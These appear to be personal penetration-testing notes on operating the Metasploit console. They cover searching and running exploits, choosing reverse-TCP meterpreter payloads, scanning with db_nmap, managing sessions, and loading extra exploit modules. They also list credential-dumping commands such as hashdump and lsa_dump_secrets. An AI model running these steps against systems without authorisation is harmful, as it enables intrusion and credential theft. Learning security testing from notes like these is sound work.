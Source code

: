 open as root
```
sudo msfconsole
```

```
search keyword


search type:exploit platform:windows cve:2021 rank:excellent microsoft
```


```
use number
```

To set RHOSTS, RPORT, etc
```
options
```

```
set VARAIBLE VALUE
```

we can also pick a specific target
```
show target
```

```
set target (target number)
```

```
exploit
```

Open shell
```
shell
```


# Setting a specific payload after exploit 

exploit -> gain initial access
payload -> to open the shell 

search for a specific type of payload
```
grep meterpreter show payloads
```
can stack the grep commands
```
grep meterpreter grep reverse_tcp show payloads
```

after selecting the exploit in the options we can 
```
set payload (payload number)
```


we can also do the same for encoders


# Using database

```
db_status 
```

create a new workspace or use existing workspace
```
workspace -h
```

import scannign result
```
db_import nmap_scan.xml
```
xml files are preferred

or just run the scan in msfconsole
```
db_nmap -sV -sS ip.address
```

exporting all the data
```
db_export -h
```

Other commands
use -h for more information
```
hosts
services
creds //credentials
loot
```


# Sessions
useful when we want to run an additional module on an already exploited system with a formed, stable communication channel 

```
sessions 
```

```
seesions -i [no.]
```

can use jobs to see active tasks running in the background
```
jobs -h 
```

```
exploit -j
```
run the exploit as a job

Meterpreter: 
```
hashdump
lsa_dump_sam
lsa_dump_secrets
```


# What to do when exploit is not installed on our machine 

Search on google 
```
software (version) exploit metasploit.github
```
then get the .rb exploit module file 

Then we can copy the code from the repo onto our local attack box and save it in the directory that msf is referencing 
`/usr/share/metasploit-framework`

```
locate exploits
```
find the directory then dumb the code inot a file 

```
msfconsole -m /usr/share/metasploit-framework/modules
```

in msfconsole
```
loadpath /usr/share/metasploit-framework/modules
reload_all
```

## or simply try updating it 
```
sudo apt update; sudo apt install metasploit-framework
```



